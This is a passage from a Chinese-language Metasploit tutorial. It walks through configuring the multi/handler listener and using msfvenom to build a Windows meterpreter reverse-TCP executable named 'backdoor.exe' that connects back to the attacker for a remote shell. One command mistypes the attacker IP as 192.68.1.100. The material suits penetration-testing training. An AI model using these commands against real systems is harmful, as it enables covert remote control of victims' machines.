 2.  **选择 `handler` 模块**：
    ```bash
    use exploit/multi/handler
    ```

3.  **设置 Payload (必须与目标 Payload 匹配)**：
    这是最关键的一步。`handler` 需要知道它正在监听的是哪种类型的 Payload，以便正确地处理接收到的连接。因此，这里设置的 Payload 必须**精确**匹配你在 `msfvenom` 中生成 Payload 时使用的那一个。

    例如，如果你用 `msfvenom -p windows/meterpreter/reverse_tcp ...` 生成了 Payload，那么这里也要设置同样的 Payload：
    ```bash
    set PAYLOAD windows/meterpreter/reverse_tcp
    ```

4.  **设置 LHOST (监听主机 IP)**：
    `LHOST` 是攻击机上监听连接的 IP 地址。这个 IP 地址必须是目标机器能够访问到的。如果你有多块网卡，请选择正确的 IP 地址。
    ```bash
    set LHOST 192.168.1.100  # 替换为你的攻击机实际IP
    ```

5.  **设置 LPORT (监听端口)**：
    `LPORT` 是攻击机上监听连接的端口。这个端口必须是开放的，且没有被其他程序占用。在生成 Payload 时，Payload 中也需要指定回连到这个 LPORT。
    ```bash
    set LPORT 4444  # 替换为你生成Payload时使用的端口
    ```

6.  **检查选项**：
    ```bash
    show options
    ```
    确认 `LHOST` 和 `LPORT` 都已正确设置，并且 `Payload` 与你预期的匹配。

7.  **启动监听器**：
    ```bash
    exploit
    # 或者 run
    ```
    此时 `handler` 开始在 `LHOST:LPORT` 上监听传入连接。它会显示“Started reverse TCP handler on ...”之类的消息。

8.  **等待会话**：
    现在，当目标机器执行你之前生成的恶意 Payload 时，它会尝试回连到你的 `LHOST:LPORT`。一旦连接成功，`msfconsole` 就会显示“Meterpreter session X opened ...”或“Shell session X opened ...”的消息，表明你已成功获取远程 Shell。

### 2.2 示例 (结合 `msfvenom`)

1.  **在攻击机 (192.168.1.100) 上生成 Payload (使用 `msfvenom`)**：
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.68.1.100 LPORT=4444 -f exe -o /root/Desktop/backdoor.exe
    ```
    这会在 `/root/Desktop` 下生成一个名为 `backdoor.exe` 的 Windows 可执行文件。

2.  **在攻击机上启动 `msfconsole` 并配置 `handler`**：
    ```bash
    msfconsole
    use exploit/multi/handler
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST 192.168.1.100
    set LPORT 4444
    exploit
    ```
